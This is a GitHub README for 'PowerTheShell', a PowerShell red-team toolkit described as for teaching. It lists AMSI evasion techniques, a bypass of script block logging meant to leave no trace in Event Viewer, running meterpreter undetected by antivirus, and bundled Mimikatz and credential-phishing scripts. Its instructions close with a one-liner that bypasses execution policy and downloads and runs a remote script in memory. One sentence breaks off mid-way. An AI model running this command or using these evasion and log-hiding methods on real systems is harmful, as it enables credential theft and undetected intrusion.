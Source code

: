 # PowerTheShell

This repository was created for teaching / demonstration purposes and is based on a post by <a href="https://twitter.com/_xpn_" rel="nofollow">@<em>xpn</em></a>, more details available <a href="https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/" rel="nofollow">here</a>.

The goal is:

1. Perform everything in memory without touching the hard disk
2. Run well-known scripts without being intercepted by the AV
3. Execute payload meterpreter without being intercepted by the AV
4. Minimize trace in EventViewer

The main script Console-Setup.ps1 performs one of the following AMSI evasion techniques:

1. Reflection by Matt Graeber (@mattifestation)
2. Patching by Tal Liberman (@Tal_Liberman)
3. Erro forcing by Adam Chester (@_xpn_)

The main script also performs the necessary commands for protecting our operational security:

1. Script block logging bypass by Ryan Cobb (@cobbr_io)

Once the setup phase is over, you can run the console and all its scripts without using any obfuscation technique. In fact, only the commands necessary for AMSI evasion technique are obfuscated.
The command necessary for Script block logging bypass are also obfuscated not for evade AMSI but for not leave trace on EventViewer


This repository contains well-known scripts such as Invoke-Mimikatz Invoke-Powershell Invoke-CrerdentialPhisher that
they have been patched or customized for solving issue and easy integration. The customization performed do not compromise the signature of the scripts.
In order to 

# Instructions

To start the console run this line

powershell -Execution bypass "iex((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/b4rtik/PowerTheShell/master/Console-Setup.ps1'))"
